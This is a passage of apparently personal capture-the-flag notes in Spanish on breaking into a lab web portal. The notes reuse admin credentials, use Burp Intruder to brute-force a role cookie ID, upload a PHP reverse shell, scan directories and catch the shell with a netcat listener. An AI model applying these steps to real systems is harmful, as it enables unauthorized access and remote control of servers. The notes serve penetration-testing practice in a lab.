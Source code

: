 -	Ingresamos al login
	-	Intentamos credenciales "admin" y "MEGACORP_4dm1n!!" de la maquina anterior
	-	Ingresamos al portal
	-	Revisamos el portal y vemos que la sección "Uploads" esta bloqueada

-	Buscamos acceso a "Upload"
	-	Vemos que en la sección "Accounts" que se despliegan datos de las credenciales
	-	Vamos a revisar las peticiones con Burpsuite
	-	Activamos la opción "Intercept is on" en "Proxy"
	-	Revisamos la cookie y vemos que hay un "user" id y un "role"

-	Hacemos brute force a los valores del ID para encontrar otros roles
	-	En la sección Intruder
		-	En la sección Positions
			-	Limpiamos las variables y solo indicamos que será el 1
		-	En la sección payloads
			-	Generamos el script para numeros
			-	Pegamos los numetos en las opciones del payload
		-	Sección options
			-	Sección redirections
				-	Habilitamos "Follow redirections" to "Always"
				-	Habilitamos "Process cookies in redirections"
		-	Sección Target
			-	Comenzamos ataque
			-	Vemos los resultados, observamos que hay un cambio en el tampo de las respuestas
			-	Analizamos los que sean de tamaño distinto hasta encontrar al super admin
			-	Vemos que la respuesta corresponde al request id=30 y el id user=86575 es el del super admin
			-	Con "Intercetp" activamos vamos a Uploads y ponemos el user del super admin


## Foothold

-	Probablemente no hay input validation
-	Subimos una reverse shell
	-	https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
	-	"https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md"
	-	https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
		-	curl -O https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
	-	Obtengo mi IP y modifico la shell con la IP y el puerto (tun)
	-	Subo la shell

-	Utilizamos dirserch para escanear las carpetas
	-	https://github.com/maurosoria/dirsearch
		-	git clone https://github.com/maurosoria/dirsearch.git
		-	cd dirsearch
		-	python3 dirsearch.py -u http://10.10.10.28 -e php
			-	Indicamos el objetivo
			-	Indicamos las extensiones de archivo a dar prioridad
	-	Encontramos el folder uploads
	-	configuramos firewall
		-	ufw allow from 10.10.10.27 proto tcp to any port 80,443
	-	Preparamos netcat
		-	rlwrap nc -lvnp 443
			-	`l`: modo de escucha, para conexiones entrantes
			-	`v`: modo `verbose`, para ir viendo que sucede
			-	`n`: para trabajar con direcciones IP
			-	`p`:
	-	Activamos la shell
		-	curl http://10.10.10.28/uploads/test.php
	-	Obtenemos una shell interactiva
		-	SHELL=/bin/bash script -q /dev/null
		-	Ctrl-Z
		-	stty raw -echo